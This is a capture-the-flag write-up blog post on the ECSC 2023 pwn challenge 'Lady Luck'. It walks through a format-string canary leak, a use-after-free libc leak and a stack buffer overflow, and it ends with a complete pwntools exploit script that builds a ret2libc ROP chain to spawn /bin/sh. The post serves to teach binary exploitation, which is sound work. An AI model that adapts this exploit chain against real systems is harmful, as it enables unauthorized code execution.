 ```yaml
---
id: 17
title: "ECSC 2023: Lady Luck"
subtitle: "ECSC 2023 Day 3: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, c++, pwn, ctf"
---
```


## Foreword

This challenge was a lot more interesting than those on Day 1. It featured a `free()` bug to leak libc address, though the challenge overall is still a ret2libc challenge.

# Lady Luck

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d3/ladyluck/lady_luck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

It has everything enabled. This means we potentially need to watch out for the canary as well as the PIE offset.

We open the binary in IDA and see that it's a menu based application.
```c
buf = 0;
v5 = 0;
fwrite(&unk_2508, 1uLL, 0x79uLL, stdout);
option1 = read_num();
if ( !option1 || option1 > 3 )
{
  puts("\nAre you trying to cheat Lady Luck?!\n");
  exit(1312);
}
fwrite(&unk_25B0, 1uLL, 0x66uLL, stdout);
read(0, &buf, 6uLL);
fflush(stdin);
if ( !strcmp((const char *)&buf, "fr33c01n5f0r3v3ry0n3") )
{
  coins = 0x174876E7FFLL;
}
else
{
  fprintf(stdout, "\n%s[-] Sorry, this is not correct: ", "\x1B[1;31m");
  fprintf(stdout, (const char *)&buf);
  puts("\x1B[1;34m");
}
menu();
```

There is a format string exploit with an input of up to length 6 in `main()` before it goes into menu. We can thus use it to leak the canary `%8$p`.

Decompiling `menu()` and all its subfunctions, we find out that `buy_pots()` restricts the potions you can buy to a maximum size of `0x82`.
```c
fwrite("\nml: ", 1uLL, 5uLL, stdout);
psize = read_num();
if ( psize <= 0x82 && psize )
{
  if ( check_coins(20 * psize) )
    coins -= 20 * psize;
  fwrite("\nSlot to place it: ", 1uLL, 0x13uLL, stdout);
  pindex = read_num();
  if ( pindex > 9 )
    goto LABEL_13;
  red_pots[pindex] = (char *)malloc(psize);
  strcpy(red_pots[pindex], "Lucky Red    potion x1");
}
```

`sell_pots()` calls `free()` but does not reset the pointer, which allows for a use-after-free or related bugs.
```c
free(red_pots[index]);
fprintf(stdout, "%s\n[+] Sold! You got back 20 coins!%s\n\n", "\x1B[1;32m", "\x1B[1;34m");
coins += 20LL;
```

`show_inventory()` will list out everything in the inventory, *including the freed elements in the array* due to the pointer not being set to null after `free()`. This can be used to leak whatever we can get by calling `sell_pots()`.
```c
for ( i = 0LL; i <= 9; ++i )
{
  if ( red_pots[i] )
    fprintf(stdout, "Slot [%d]: %s\n", i, red_pots[i]);
  else
    fprintf(stdout, "Slot [%d]: Empty\n", i);
}
```

`discount_code()` defines an input buffer of length `0x80` but allows the user to input up to `0xB7` bytes with `fgets()`, which allows for buffer overflow.
```c
memset(y, 0, 128);
fwrite(
"\nI will tell you the lucky phrase for your next purchase, but you need to give me a good reason why: \n\n",
1uLL,
0x67uLL,
stdout);
fgets(y, 0xB7, stdin);
fwrite("Your code is: [fr33c01n5f0r3v3ry0n3]\n", 1uLL, 0x25uLL, stdout);
```

We can leak the libc address by buying 8 potions of length `0x82` then selling all of them. We see a `0x7f` byte in gdb which tells we leaked some address in libc. We set a breakpoint at `show_inventory()` and see our leaked address. Then we can simply `xinfo` to find the static offset to libc base, which is `0x219ce0`.

Chaining everything together, we have:
1. Leak canary with fsb
2. Leak libc with `buy_pots()`, `sell_pots()` and `show_inventory()`
3. Buffer overflow and ret2libc

We can automate the process with pwntools:
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./lady_luck", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./lady_luck", "localhost", gdbscript="b show_inventory")

def sell(n):
	p.sendlineafter(">>", "2")
	p.sendlineafter(":", str(n))

def buy(n):
	p.sendlineafter(">>", "1")
	p.sendlineafter(":", str(0x82))
	p.sendlineafter(":", str(n))

def inventory():
	p.sendlineafter(">>", "3")

# Leak canary
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendlineafter(": ", "%8$p")
p.recvuntil(": ")
canary = int(p.recvline(), 16)
info(f"{hex(canary) =}")

p.sendlineafter(">>", "1")

# bin collision magic
for i in range(10):
	buy(i)

p.sendlineafter(">>", "3")

for i in range(9):
	sell(i)

# leak libc address, calcullate libc base
inventory()

p.recvuntil("[7]: ")
libc.address = u64(p.recvline().rstrip(b'\n').ljust(8,b'\x00')) - 0x219ce0
success(f"{hex(libc.address) =}")

# perform bof and ret2libc
p.sendlineafter(":", "4")

rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x88: p64(canary), 0x90: p64(0) + rop.chain()})

p.sendafter(":", payload)

p.interactive()
```

`cat flag.txt` for the flag.

## Afterword

The most fun challenge out of all the rest because of the different layers that went into this, from leaking canary to getting a libc address, before finally sending the final payload to pop shell. Honestly I think it would've been easier if I had stronger knowledge on tcache and bins, but nonetheless it was kinda fun.

Throughout the competition, huge thanks to all my teammates for working tirelessly and especially `enigmatrix` for his guidance with solving the pwn challenges.

Thanks for reading!